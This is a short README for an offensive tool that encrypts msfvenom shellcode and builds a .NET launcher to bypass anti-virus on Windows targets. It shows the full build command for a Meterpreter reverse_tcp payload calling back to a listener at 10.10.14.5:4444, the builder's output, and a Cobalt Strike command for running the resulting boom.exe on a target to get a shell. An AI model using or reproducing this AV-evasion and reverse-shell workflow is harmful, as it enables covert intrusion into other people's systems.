 # ShellcodeEncryptor
A simple shell code encryptor/decryptor/executor to bypass anti virus.

# Purpose
To generate a .Net binary containing base64 encoded, AES encrypted shellcode that will execute on a Windows target, bypassing anti-virus.

# Instructions

Use the `builder.py` to create the executable (you will need `mono` installed on your Linux box):
```
root@kali:~# ./launcher.py -p windows/meterpreter/reverse_tcp --arch x86 --lport 4444 --lhost 10.10.14.5 --key my_super_key -f boom.exe
[+] Generating MSFVENOM payload...
[+] Encrypting the payload...
[+] Generating launcher.cs file...
[+] Compiling the launcher...
[+] Launcher compiled and written to ./boom.exe
[+] Have a nice day!
```

Take the resulting executable and run it on the target, for example (Cobalt Strike):
```
execute-assembly ./uploads/boom.exe
```

Hopefully you will have a nice meterpreter shell.

# Notes

The `builder.cs` file is provided as a reference.
Tested with x86 windows/meterpreter/reverse_tcp
